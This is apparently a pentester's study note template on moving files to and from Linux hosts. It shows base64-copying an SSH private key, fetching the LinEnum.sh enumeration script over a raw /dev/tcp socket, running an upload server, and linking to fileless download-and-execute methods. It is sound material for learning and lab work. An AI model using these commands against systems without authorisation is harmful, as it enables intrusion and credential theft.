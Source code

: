 # Linux File Transfer

## Overview

What this technique is and when I need it

## Downloading

### Base64 Encoding

**Step 1:** Check the MD5 hash of the contents.
```bash
md5sum id_rsa
```

**Step 2:** Encode contents to base64 and copy it to clipboard.
```bash
cat id_rsa | base64 -w 0; echo
```

**Step 3:** On the second Linux machine, decode the Base64 file content.
```bash
echo -n 'encoded' | base64 -d > id_rsa
```

**Step 4:** Confirm the MD5 hash matches.
```bash
md5sum id_rsa
```

### wget

#### Method 1: Download

Download a file.
![[wget#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[wget#^fileless-download]]

### cURL

#### Method 1: Download

Download a file.
![[curl#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[curl#^fileless-download]]

### Bash

#### Method 1: /dev/tcp

**Step 1:** Connect to the target webserver.
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

**Step 2:** Send a HTTP GET request for the file.
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

**Step 3:** Print the response.
```bash
cat <&3
```

### SSH

#### Method 1: SCP

![[SCP#^download-file-from-linux]]

## Uploading

### HTTP

#### Method 1: uploadserver

**Step 1:** Create a Self-Signed Cerfificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Step 2:** Start the webserver
```bash
mkdir www && cd www; sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

**Step 3:** Upload files.
![[curl#^upload-multiple-files-insecure]]

#### Method 2: Python

**Step 1:** Create a webserver in python3
![[Python#^python3-webserver]]
or
**Step 1:** Create a webserver in python2.7
![[Python#^python2-7-webserver]]

**Step 2:** Download a file.
![[wget#^simple-download]]

#### Method 3: PHP

**Step 1:** Create a webserver.
![[PHP#^create-webserver]]

**Step 2:** Download a file.
![[wget#^simple-download]]
#### Method 4: Ruby

**Step 1:** Create a webserver.
![[ruby#^create-webserver]]

**Step 2:** Download a file.
![[wget#^simple-download]]

### SSH

#### Method 1: SCP

![[SCP#^upload-file-to-linux]]



## Practical Examples

Real-world scenarios where I've used this

## Troubleshooting

- Common issues I've encountered
- Things that break this technique
- Environment-specific considerations

## Related Techniques

- [[Similar-Technique]] - How they differ
- [[Follow-up-Technique]] - What comes next

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #linux-file-transfer
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- 

#linux-file-transfer #technique